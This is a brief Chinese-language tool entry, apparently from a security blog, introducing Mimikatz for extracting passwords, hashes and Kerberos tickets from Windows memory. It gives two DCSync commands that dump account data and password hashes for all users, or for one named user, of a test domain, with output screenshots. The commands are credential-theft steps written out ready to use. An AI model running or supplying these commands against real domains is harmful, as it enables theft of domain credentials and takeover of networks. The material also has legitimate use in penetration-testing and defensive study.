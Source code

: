 ### Mimikatz

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
项目介绍：mimikatz 用于从 Windows 操作系统内存中提取明文密码、散列、pin 码和 kerberos 票据，同时 mimikatz 还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：  
a、获取所有域内用户的账户信息

```bash
lsadump::dcsync /domain:hacke.testlab /all /csv
```

[![](assets/1706090550-11eec5fabbeede7e7d23337bcbfd1e7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100904-8c7aeb00-ba5d-1.png)  
b、通过使用/user 参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

```bash
lsadump::dcsync /domain:hacke.testlab /user:testuser
```

[![](assets/1706090550-2a54015a4eff95c2d7968cf69d8adcf3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100927-99f2ca82-ba5d-1.png)
